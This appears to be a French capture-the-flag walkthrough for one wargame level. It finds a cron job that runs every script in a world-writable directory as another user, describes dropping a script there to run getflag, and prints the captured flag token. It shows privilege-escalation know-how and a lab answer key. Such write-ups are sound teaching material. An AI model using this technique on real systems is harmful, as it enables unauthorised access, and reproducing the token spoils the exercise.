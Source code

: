 # LEVEL 06
- On cherche les fichiers du user Level05
```
find / -name level05 2>&-
/var/mail/level05
```

- On trouve un script cron qui se lance une minute sur deux
```
cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

- On regarde le contenu du script `cat /usr/sbin/openarenaserver`
```sh
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

- Ce script execute tous les scripts presents dans /opt/openarenaserver/, on y créer donc notre script bash pour executer la commande getflag

```
cat /var/crash/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```